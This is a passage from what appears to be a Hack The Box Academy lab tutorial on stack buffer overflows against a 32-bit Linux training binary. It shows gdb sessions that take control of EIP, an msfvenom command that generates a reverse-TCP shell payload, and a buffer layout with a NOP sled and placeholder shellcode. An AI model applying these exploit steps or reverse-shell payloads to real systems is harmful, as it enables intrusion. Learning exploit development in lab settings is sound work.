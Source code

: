 If we now use precisely this number of bytes for our "`U`"s, we should land exactly on the `EIP`. To overwrite it and check if we have reached it as planned, we can add 4 more bytes with "`\x66`" and execute it to ensure we control the `EIP`.

```
(gdb) run $(python -c "print '\x55' * 1036 + '\x66' * 4")

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c "print '\x55' * 1036 + '\x66' * 4")
Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()
```

![image](https://academy.hackthebox.com/storage/modules/31/buffer_overflow_4.png)

Now we see that we have overwritten the `EIP` with our "`\x66`" characters. Next, we have to find out how much space we have for our shellcode, which then executes the commands we intend. As we control the `EIP` now, we will later overwrite it with the address pointing to our shellcode's beginning.

## Determine Length for Shellcode
```bash
Pietra@htb[/htb]$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 lport=31337 --platform linux --arch x86 --format c

No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
<SNIP>
```

We now know that our payload will be about 68 bytes. However we should try to take a larger range in case the shellcode increases.

We can insert some **no operation instruction** (**NOPS**) before our shellcode begins so it can be executed cleanly. We need:

1. Total of 1040 bytes to get to the **EIP**.
2. Additional **100 bytes** of **NOPS**.
3. **150 bytes** for our **shellcode**.

```bash
Buffer = "\x55" * (1040 - 100 - 150 - 4) = 786
NOPs = "\x90" * 100
Shellcode = "\x44" * 150
EIP = "\x66" * 4'
```

![image](https://academy.hackthebox.com/storage/modules/31/buffer_overflow_8.png)

```bash
(gdb) run $(python -c 'print "\x55" * (1040 - 100 - 150 - 4) + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 100 - 150 - 4) + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')
Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()
```
